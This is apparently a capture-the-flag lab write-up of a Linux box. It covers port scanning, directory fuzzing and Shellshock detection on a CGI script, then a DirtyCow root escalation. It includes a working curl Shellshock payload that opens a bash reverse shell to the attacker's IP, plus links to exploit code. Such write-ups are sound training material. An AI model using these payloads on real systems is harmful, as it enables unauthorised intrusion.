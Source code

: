 Enumeration is the name of the Game.
IP= 192.168.198.87

## Recon
```
└─# rustscan --ulimit=5000 --range=1-65535 -a 192.168.198.87 -- -sV
Open 192.168.198.87:22
Open 192.168.198.87:80
```
On the port 80 i found apache 2.2.22.
I fuzzed this port but nothing on it.
So I will re-Scan my nmap
```
└─# nmap -sV -Pn -p- --min-rate=5000 192.168.198.87 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I will change a tool and use `ffuf`
```
└─# ffuf -u "http://192.168.198.87/FUZZ" -w /usr/share/wordlists/dirb/common.txt
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 261ms]
.htpasswd               [Status: 403, Size: 291, Words: 21, Lines: 11, Duration: 425ms]
.htaccess               [Status: 403, Size: 291, Words: 21, Lines: 11, Duration: 403ms]
.hta                    [Status: 403, Size: 286, Words: 21, Lines: 11, Duration: 415ms]
cgi-bin/                [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 322ms]

```
Found 403 and the cgi-bin. so i will fuzz on that also
```
└─# ffuf -u "http://192.168.198.87/cgi-bin/FUZZ" -w /usr/share/wordlists/dirb/common.txt
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 231ms]
.htaccess               [Status: 403, Size: 299, Words: 21, Lines: 11, Duration: 398ms]
.htpasswd               [Status: 403, Size: 299, Words: 21, Lines: 11, Duration: 407ms]
.hta                    [Status: 403, Size: 294, Words: 21, Lines: 11, Duration: 398ms]
test                    [Status: 200, Size: 14, Words: 3, Lines: 2, Duration: 1540ms]
```
Wow i know that cgi-bin is shellshock.
Let confirm it
```
└─# nmap 192.168.198.87 -p80 --script=http-shellshock.nse --script-args uri=/cgi-bin/test
PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271



```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi
https://github.com/erinzm/shellshocker
Getting a shell
```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/192.168.45.167/1337 0>&1' http://192.168.198.87/cgi-bin/test


bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@ubuntu:/usr/lib/cgi-bin$ 
```
```
www-data@ubuntu:/usr/lib/cgi-bin$ cat local.txt
cat local.txt
41f9c81a048eb459cfe1e28b1d32bebe
www-data@ubuntu:/usr/lib/cgi-bin$ 

```
## Escalation
I will start by a 
```
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux

```
I will use exploit suggester.
```
[+] [CVE-2016-5195] dirtycow 2
[+] [CVE-2016-5195] dirtycow
```
Best : https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
instead of DirtyCow it's Vulnerable of this also https://www.exploit-db.com/exploits/33589?ref=infosecarticles.com

if you are exploiting dirtycow and then the gcc is not compiling correcty.
use this 
```
PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH 
```
and then compile it 
```
└─# ssh firefart@192.168.180.87
The authenticity of host '192.168.180.87 (192.168.180.87)' can't be established.
ECDSA key fingerprint is SHA256:G8HZXu6SUrixt/obia/CUlTgdJK9JaFKXwulm6uUrbQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.180.87' (ECDSA) to the list of known hosts.
firefart@192.168.180.87's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

firefart@ubuntu:~# ls
proof.txt  root.txt
firefart@ubuntu:~# 
firefart@ubuntu:~# cat proof.txt
2e86a08ec2e3940ad7983eb6cf7ffd20
firefart@ubuntu:~#
```